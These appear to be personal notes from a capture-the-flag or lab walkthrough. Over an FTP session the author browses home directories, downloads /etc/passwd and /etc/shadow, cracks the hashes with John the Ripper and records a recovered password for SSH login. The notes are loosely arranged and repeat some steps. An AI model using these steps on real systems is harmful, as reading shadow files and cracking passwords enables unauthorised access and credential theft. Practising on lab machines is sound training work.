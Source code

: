 ```
cd ../..
ls -alt
```
	drwxr-x---    2 1002     1003         4096 Apr 06  2023 clay
	drwxr-x---    3 1001     1002         4096 Apr 06  2023 ftp
	drwxrwxrwx    4 1000     1000         4096 Apr 06  2023 lisa

Explore clay and lisa

Move to /etc and download passwd and shadow files
```
cd /etc
get passwd
get shadow
```
	Can't enter clay but entered lisa

![[Pasted image 20231219114736.png]]

now I see her directory and see local is there so I download it
![[Pasted image 20231219114842.png]]
local.txt: `f8a63013dc7e7d4d389dd679b6a367c4`

Now since I can move around I'll try to get the /etc/password and /etc/shadow files
```
cd /etc
ls
```
	I'm there

![[Pasted image 20231219115007.png]]

down to grab the password files
```
get passwd
get shadow
```

Now in shadow there are 3 users with hashes
	root
	lisa
	ftp
![[Pasted image 20231219115450.png]]
Add these to a hash file

```
john hashes --format=crypt
```
	lisa:peanut:19453:0:99999:7:::
	ftp:ftp:19453:0:99999:7:::

![[Pasted image 20231219115752.png]]

Lisa's password is peanut so use that for ssh
Can let john run while I try priv esc
## 22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a7:09:ae:7c:78:41:c7:a8:b4:41:17:20:f5:cd:15:75 (ECDSA)
|_  256 6c:fc:3e:2e:95:6a:54:1e:98:89:0e:c9:97:69:10:b9 (ED25519)
